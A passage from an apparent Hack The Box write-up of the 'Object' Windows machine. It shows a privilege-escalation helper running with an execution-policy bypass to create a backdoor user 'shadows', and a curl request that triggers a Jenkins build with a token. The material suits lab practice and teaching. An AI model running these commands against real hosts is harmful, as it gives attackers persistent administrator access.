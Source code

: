 
We can see that we have successfully escalated our privileges from the user `oliver` to the account `NT Authority\System`. We now have full control over the windows host machine.

We can utilise the escalate privileges to create a new account and add it to the Administrator group.

First we can create our new user called `shadows` using the following command:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "%TEMP%\resource.temp\efspot.exe 'net user shadows Shad0wsRUS1! /add'"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_37.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_37.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }


We can now trigger the job again to build with the new command.

```zsh
0x3ds@kali $ curl -X POST -L --user shadows:113cd8cf72a195b55d66f037ad1d0a7331 \
    'http://object.htb:8080/job/shadownedya/build?token=ShadowsAuthToken'

```

We can now refresh our project page and access the Console Output of our newly built job to see that it was successful.
